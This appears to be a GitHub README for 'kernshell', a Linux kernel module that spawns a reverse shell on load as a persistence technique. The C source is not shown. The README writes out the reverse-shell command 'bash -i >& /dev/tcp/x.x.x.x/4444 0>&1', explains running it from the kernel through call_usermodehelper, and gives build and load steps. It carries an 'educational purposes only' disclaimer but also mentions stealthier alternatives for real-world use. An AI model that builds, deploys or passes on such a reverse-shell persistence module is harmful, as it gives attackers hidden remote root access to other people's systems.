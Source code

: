 # kernshell

If you're like me, and for some reason would like to include a reverse shell in the kernel to test a different approach on persistence, this will likely pique your interest.


## Disclaimer

This code is intended for **educational purposes only**. Running or distributing reverse shells without permission is illegal. Ensure you are working in a controlled, personal or test environment.
This reverse shell kernel module should never be used in production environments. While it is not unstable and does not directly cause system crashes, it carries risks that make it impractical. It is easy detectable by modern security tools, and by no means should this be considered a useful approach due to the following:

- **High detection by EDR/AV/rootkit detection**
- **Lack of error handling**
- **Requiring root access**

Safer, stealthier altrenatives exist and should be used in real-world scenarios.

## Overview

This kernel module demonstrates how to spawn a reverse shell when the module is loaded. The reverse shell connects to a remote server (in this case, `x.x.x.x` on port `4444`) and pops a bash shell running on the target machine. 

## How It Works

- **Initialization**: When the module is loaded into the kernel, it executes a shell command to open a reverse shell.
- **Shell Command**: The command `bash -i >& /dev/tcp/x.x.x.x/4444 0>&1` redirects input/output over a TCP connection to a remote host.
- **Execution**: The `call_usermodehelper` function is used to execute this command in user mode from within the kernel.
- **Cleanup**: When the module is removed, a message is printed to the kernel log indicating that the module has exited.

This is purely a proof of concept for understanding kernel modules and reverse shells. The code is not intended for any production or malicious use.

# How to Use the Included Makefile

To build, install, and manage the kernel module, follow these instructions using the provided Makefile.

## Prerequisites

Ensure you have:
- A Linux build environment (with tools like `build-essential` and `kernel-headers`).
- Root or sudo privileges to load/unload kernel modules.

### Kernel Module Development Environment Setup:

For Debian or Ubuntu-based systems, use the following command:

```bash
sudo apt update
sudo apt install build-essential linux-headers-$(uname -r)
```
For Arch Linux, use the following command:
```bash
sudo pacman -Syu
sudo pacman -S base-devel linux-headers
```
For Red Hat, CentOS, or Fedora-based systems, use the following command:
```bash
sudo dnf groupinstall "Development Tools"
sudo dnf install kernel-devel kernel-headers
```

## Build Commands:

### 1. Build the Module
To compile the kernel module, use the `make` command:

```bash
make
```

### 2. Install the Module
To install (load) the module into the kernel, run:
```bash
sudo make install
```
This inserts the module into the running kernel

### 3. Remove Build Files
To remove the build files created during compilation:
```bash
make clean
```
This deletes temporary files such as `.o` and `.ko.`


### 4. Remove the Kernel Module
To unload and remove the kernel module from the running kernel, use:
```bash
sudo make remove
```
